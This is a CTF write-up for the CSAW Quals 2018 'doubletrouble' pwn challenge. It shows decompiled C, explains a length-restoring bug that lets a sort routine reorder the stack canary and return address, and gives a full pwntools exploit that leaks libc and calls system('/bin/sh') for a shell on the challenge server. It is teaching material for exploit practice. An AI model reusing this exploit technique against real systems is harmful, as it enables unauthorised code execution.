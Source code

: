```yaml
---
title: CSAW Quals 18 - doubletrouble
date: '2018-09-17'
lastmod: '2019-04-07T13:46:27+02:00'
categories:
- ctf_csawquals18
- writeup
- csawquals18
tags:
- exploitation
authors:
- andreafioraldi
---
```


The core function is the following:

```c
int game()
{
  int v0;
  long double sum;
  long double max;
  long double min;
  int v4;
  int how_long;
  int idx;
  char *s;
  double array[64];
  unsigned int v10;

  canary = __readgsdword(0x14u);
  printf("%p\n", array);  // Stack address leak
  printf("How long: ");
  __isoc99_scanf("%d", &how_long);
  getchar();
  if ( how_long > 64 )
  {
    printf("Flag: hahahano. But system is at %d", &system);
    exit(1);
  }
  idx = 0;
  while ( idx < how_long )
  {
    s = malloc(100u);
    printf("Give me: ");
    fgets(s, 100, stdin);
    v0 = idx++;
    array[v0] = atof(s);
  }
  printArray(&how_long, array);
  sum = sumArray(&how_long, array);
  printf("Sum: %f\n", sum);
  max = maxArray(&how_long, array);
  printf("Max: %f\n", max);
  min = minArray(&how_long, array);
  printf("Min: %f\n", min);
  v4 = findArray(&how_long, array, -100.0, -10.0);
  printf("My favorite number you entered is: %f\n", array[v4]);
  sortArray(&how_long, array);
  puts("Sorted Array:");
  return printArray(&how_long, array);
}
```

The programs store the readed doubles in an array on the stack.
The array is 532 bytes from the return address, so 64 entries are not enough for a buffer overflow.

The findArray function is interesting, a correct manipulation of the input can change the how_long variable.

```c
int findArray(int *len, double *arr, double a, double b)
{
  int saved_len;

  saved_len = *len;
  while ( *len < 2 * saved_len )
  {
    if ( arr[*len - saved_len] > a && b > arr[*len - saved_len] )
      return *len - saved_len; // Here *len is not restored to saved_len
    *len += &GLOBAL_OFFSET_TABLE_ - 134529023; //*len += 1
  }
  *len = saved_len; // We want to avoid this piece of code
  return 0;
}
```

Giving a number greater than -10 `*len` is increased and with a number greater than -100 and lower than -10 we can avoid the restring of `*len` with `saved_len`.

We choose -1.1 and -20.1.

With `how_long` greater than 64 the sortArray procedure will sort our input and the values that are on the stack after the array, like the canary and the return address.

The binary addresses casted to double are sorted after -1.1.

To exploit the vulnerability we need to place the canary in the same position before and after the sorting so it must start with 0x00b.
Due to this requirement the exploit must be runned many times to work.

Here the exploit:

```python
#!/usr/bin/env python

from pwn import *

LIBC_NAME = "./libc6_2.27-3ubuntu1_i386.so" # found on libc database using system (0x200)

def pdouble(f):
    return struct.pack('<d', f)

def double_to_hex(f):
    return hex(struct.unpack('<Q', struct.pack('<d', f))[0])

def int_to_double(i):
    return struct.unpack('<d', p64(i))[0]

def hex_to_double(h):
    return struct.unpack('<d', h.decode("hex")[::-1])[0]

libc = ELF(LIBC_NAME)

while True:
    #p = process("./doubletrouble", env={"LD_PRELOAD": LIBC_NAME})
    p = remote("pwn.chal.csaw.io", 9002)

    try:
        
        ### STAGE 1 - leak libc a restart main
        
        stack = int(p.recvline(False), 16)

        l = 64
        p.sendafter("How long: ", str(l) + "\n")

        p.sendafter("Give me: ", repr(int_to_double(0x8049506FFE26D6C)) + "\n") #main = 0x8049506
        p.sendafter("Give me: ", repr(int_to_double(0x8049506FFE26D6C)) + "\n")

        for i in xrange(3):
            p.sendafter("Give me: ", "-1.1\n")

        for i in xrange(l -5):
            p.sendafter("Give me: ", "-20.1\n")

        p.recvuntil("Sorted Array:")
        p.recvuntil("0:")

        off = 0xf7f8bfff - 0xF7DB4000

        libc.address = u32(pdouble(float(p.recvline(False)))[4:]) - off
        if libc.address & 1 == 1:
            libc.address -= 1

        print "LIBC: ", hex(libc.address), hex(libc.symbols["system"])[2:]

        p.recvuntil("68:") + p.recvline(False)
        
        
        ### STAGE 2 - execute system("/bin/sh")
        
        stack = int(p.recvline(False), 16)

        l = 64
        p.sendafter("How long: ", str(l) + "\n")

        v = hex_to_double(("0804900a0804900a")) #0x0804900a : ret
        p.sendafter("Give me: ", repr(v) + "\n")
        
        v = hex_to_double("0804A0D5" + hex(libc.symbols["system"])[2:])
        p.sendafter("Give me: ", repr(v) + "\n")
        
        bin_sh = libc.address + 0x17e0cf
        v = hex_to_double(("09049786" + hex(bin_sh)[2:]))
        p.sendafter("Give me: ", repr(v) + "\n")

        for i in xrange(2):
            p.sendafter("Give me: ", "-1.1\n")

        for i in xrange(l -5):
            p.sendafter("Give me: ", "-20.1\n")

        p.recvuntil("Sorted Array:")
        p.recvuntil("0:")
        
        p.interactive()
        p.close()
    except KeyboardInterrupt:
        p.close()
        exit()
    except Exception:
        p.close()
        continue
```
